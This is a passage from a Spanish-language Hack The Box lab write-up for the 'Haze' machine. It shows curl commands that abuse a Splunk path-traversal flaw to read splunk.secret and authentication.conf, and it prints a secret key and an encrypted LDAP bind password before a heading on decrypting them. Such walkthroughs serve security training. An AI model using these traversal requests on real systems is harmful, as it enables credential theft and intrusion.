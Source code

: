 ~~~ bash
curl -s http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/auth/splunk.secret > secret.txt

cat secret.txt
NfKeJCdFGKUQUqyQmnX/WM9xMn5uVF32qyiofYPHkEOGcpMsEN.lRPooJnBdEL5Gh2wm12jKEytQoxsAYA5mReU9.h0SYEwpFMDyyAuTqhnba9P2Kul0dyBizLpq6Nq5qiCTBK3UM516vzArIkZvWQLk3Bqm1YylhEfdUvaw1ngVqR1oRtg54qf4jG0X16hNDhXokoyvgb44lWcH33FrMXxMvzFKd5W3TaAUisO6rnN0xqB7cHbofaA1YV9vgD#
~~~

Consultaremos el archivo `authentication.conf` para ver credenciales válidas que podamos desencriptar y utilizar en el protocolo LDAP

~~~ bash
curl -s http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/local/authentication.conf                
[splunk_auth]
minPasswordLength = 8
minPasswordUppercase = 0
minPasswordLowercase = 0
minPasswordSpecial = 0
minPasswordDigit = 0

[Haze LDAP Auth]
SSLEnabled = 0
anonymous_referrals = 1
bindDN = CN=Paul Taylor,CN=Users,DC=haze,DC=htb
bindDNpassword = $7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY=
charset = utf8
emailAttribute = mail
enableRangeRetrieval = 0
groupBaseDN = CN=Splunk_LDAP_Auth,CN=Users,DC=haze,DC=htb
groupMappingAttribute = dn
groupMemberAttribute = member
groupNameAttribute = cn
host = dc01.haze.htb
nestedGroups = 0
network_timeout = 20
pagelimit = -1
port = 389
realNameAttribute = cn
sizelimit = 1000
timelimit = 15
userBaseDN = CN=Users,DC=haze,DC=htb
userNameAttribute = samaccountname

[authentication]
authSettings = Haze LDAP Auth
authType = LDAP
~~~


## Decrypting Splunk Passwords
